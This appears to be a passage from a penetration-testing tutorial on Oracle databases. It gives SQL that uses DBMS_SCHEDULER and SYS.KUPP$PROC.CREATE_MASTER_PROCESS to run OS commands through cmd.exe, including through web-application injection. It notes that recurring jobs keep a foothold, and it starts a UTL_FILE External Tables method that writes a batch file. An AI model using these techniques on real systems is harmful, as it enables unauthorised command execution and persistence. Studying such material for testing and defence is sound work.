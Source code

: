 ```sql
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);
```

This will create and run a job for executing your command. And here’s an option for calling the Scheduler from another procedure – `SYS.KUPP$PROC.CREATE_MASTER_PROCESS`, which is of interest to us, primarily, because it allows you to embed multi-statement queries, that is, those consisting of multiple sub-queries. Theoretically, you can run such query even in case of injection into a web application.

```sql
select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual
```

Note that, when you use the Scheduler, you can run this job more than once and do it with some frequency. As a result, this will help you get a foothold in the tested system, because, even if the administrator deletes the user from OS, this job, which is regularly running in the system, will bring him or her back to life.

<h3>H3 - heading</h3>## RCE: External Tables

As the last method for achieving the execution of OS commands, I would like to mention the use of External Tables. This method will help you later download files from the server. You will need the following privileges:

```bash
UTL_FILE;
CREATE TABLE;
a directory reserved for the user.
```

Let’s remember that the access to `UTL_FILE` package is by default provided to all accounts with `CONNECT` role. 

Step one: Check the issued directories with the following query:

```sql
SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;
 
TABLE_NAME
------------------------------
ALICE_DIR
```

Step two: Create an executable batch file with desired command:

```sql
declare
 f utl_file.file_type;
 s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
 f := utl_file.fopen('ALICE_DIR','test.bat','W');
 utl_file.put_line(f,s);
 utl_file.fclose(f);
end;
/
```
